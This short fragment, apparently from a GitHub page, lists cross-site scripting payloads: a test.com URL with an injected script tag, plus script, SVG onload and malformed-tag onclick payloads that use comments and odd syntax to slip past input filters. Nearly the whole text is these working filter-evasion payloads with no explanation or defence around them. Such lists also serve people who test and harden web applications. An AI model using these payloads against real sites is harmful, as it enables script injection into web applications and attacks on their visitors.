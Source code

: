 **URL:**<br/>[http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>](http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>)

**Payload:**<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`


**Payload:**<br/>`"/**/></*svg*/><svg/*test*/onload=alert(/xss/)/*111*/>`


**Payload:**<br/> `<d3"<"/onclick="1>[confirm``]"<">z `

<d3"<"/onclick="1>[confirm``]"<">z
